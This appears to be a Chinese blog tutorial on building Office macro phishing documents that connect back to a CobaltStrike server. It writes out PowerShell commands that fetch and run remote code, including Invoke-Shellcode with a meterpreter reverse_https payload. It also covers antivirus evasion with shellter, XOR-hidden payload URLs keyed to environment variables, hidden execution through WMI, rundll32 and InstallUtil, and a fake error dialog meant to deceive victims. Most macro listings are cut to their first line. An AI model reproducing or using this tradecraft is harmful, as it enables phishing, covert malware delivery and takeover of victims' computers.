




卑由骨里生 万般不如人
聊一聊宏钓鱼
调用powershell
本文将简单介绍使用宏代码进行钓鱼的方法，并使其可以回连到CobaltStrike. CobaltStrike.自带有宏钓鱼功能。可以使用如下步骤进行创建：
Attacks –> Packages –> MS offices Macro

内容大体如下
1 | Private Type PROCESS_INFORMATION |
那么下面，我们使用一个其他的方法来制作一个简单的钓鱼文档，首先新建一个word文档，然后转到宏编辑页面

随意输入一个名字，来到vb编辑页面
本例采用powershell上线的方法，进行宏攻击，我们可以参考已经公开的代码https://github.com/enigma0x3/Powershell-Payload-Excel-Delivery/blob/master/MacroCode，来编写我们的宏代码
然后进行删减，得到如下宏代码，其实也只是删除了其中的计划任务部分而已。
1 | Sub Auto_Open() |
因为他的宏，默认是ps是调用的invoke-shellcoded，也就是下面的内容：
1 | powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -noprofile -noexit -c IEX ((New-Object Net.WebClient).DownloadString('http://192.168.1.127/Invoke-Shellcode')); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.127 -Lport 1111 -Force |
而我们的cs就不用这么麻烦，直接ps上线即可，如下：
1 | powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.2.114:8011/a'))" |
替换至对应地方，放入编辑器，执行，获取session
为了考虑其真实性，可以增加弹框，来增加其真实性，比如下面这种
其代码也是很简单，如下：
1 | Result = MsgBox("The document cannot be decrypted.", vbAbortRetryIgnore + vbCritical, "Please contact 360.") |
远程下载二进制并执行
本次将介绍一种下载二进制文件，并执行的方法来获得一个cobaltstrike的会话方法。首先我们先制作一个简单的cs免杀木马。这里使用的是AppLaunch.exe这个程序，该文件为.net自带的程序，并具有微软签名。
然后这里只是简单制作一下免杀，所以选用shellter来进行免杀，注意shellter只支持32位程序，且会破坏原有的数字签名。
然后使用cs生成raw的载荷，使用shellter进行免杀操作：
然后我们来看一下免杀效果，二进制文件查杀率：
360全家桶暂无反映
那么免杀二进制文件制作完成了，下面我们来编写我们的宏代码。先来编写我们的下载功能，这个还是比较简单的，直接调用WinHttp.WinHttpRequest.5.1即可，代码如下：
1 | Dim payload As String |
成功下载
注意这里使用的是环境变量来获取temp的位置并保存的，不同主机temp位置可能不同，可以使用set命令来查看。下载完成后，继续使用wmi来执行我们的二进制程序，不过与昨天的wmi方式稍微有些不同是使用的2vmic\toor.\:stmgmniw，代码如下：
1 | Const HIDDEN_WINDOW = 0 |
程序成功运行。
简单一扫
利用环境变量解密加载
这个思路是在国外一个网站上看到的，原文在这https://0xdf.gitlab.io/2018/07/31/malware-analysis-muddoc.html，在此感谢作者给出的思路，这里简单来给大家看下总体思路：
大体思路就是使用环境变量去xor解密远程url地址，然后落地化dll，调用rundll32去运行dll，得到sessIon。
我们先来看一下用了xor加密的函数(http://www.vbaexpress.com/kb/getarticle.php?kb_id=951)：
1 | Function XorC(ByVal sData As String, ByVal sKey As String) As String |
该函数接收两个参数，一个字符串、一个key。而为了安全起见，我们的key不直接写入到宏中，我们这里选择使用环境变量来获取key，机器上的环境变量可以使用set命令来查看：

我们在选择key是，要注意目标环境的变量，每个机器变量可能都不尽相同，不过有一些变量是相同的，我这里选择的是PROCESSOR_REVISION，值为9e0a，那么这里我们就要用到一个样本了，样本已上传到github(https://github.com/lengjibo/RedTeamTools/blob/master/windows/macros/encryptor.xls)，该宏可用于加密我们的url地址：
得到一个base64的字符串，然后解密
然后用我们的xor解密函数，key使用Environ来获取，来进行解密：
解密出来的稍微有些问题，这里需要主要环境变量的大小写问题，然后，我们使用下载函数，下载我们的dll，也就是之前的代码：
1 | Dim payload As String |
替换里面的指定位置的内容即可，然后调用wmi来运行rundll32来运行我们的dll.
1 | Const HIDDEN_WINDOW = 0 |
也就是稍微更改之前的代码即可，或者调用com组建进程调用：
1 | Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880") |
然后测试：

vt测试：
调用InstallUtil远程加载上线
大体流程如下
word下载一个c#载荷，然后使用函数所寻InstallUtil，并加载第一部分中下载的载荷，该载荷为真正的上线内容，该载荷，加载远程网页上的base64的shellcode到内存，获取会话。
首先，就是第一个问题，如何查找系统的InstallUtil程序，宏代码如下：
1 | Function FindInstallUtil() As String |
记得勾选
然后测试一下我们的宏代码能否找到对应的程序，为了方便起见，这里加上调用与InstallUtil的执行命令，代码如下
1 | Dim result As String |
运行后可正确获得目标位置与我们需要执行的程序加命令行。
那么下面的问题就是下载我们的程序，
1 | Dim payload As String |
还是用我们之前的代码，记得更改里面的内容。这里的jpg文件是我们使用csc编译之后的c#文件。
这个c#的功能就是读取一个远程地址上的base64密文，然后加载回内存执行。exe转base64可参照下面的代码：
1 | with open(path, 'rb') as f: |
添加执行代码测试，发现可以成功执行该代码
当然创建WScript.Shell的方法，肯定是不行的，我们换一种方法来运行，
1 | Set objWMIService = GetObject("winmgmts:\\.\root\cimv2") |
套娃上线
注：该方法只是提供思路。
程序在app.any.run的运行进程图如下：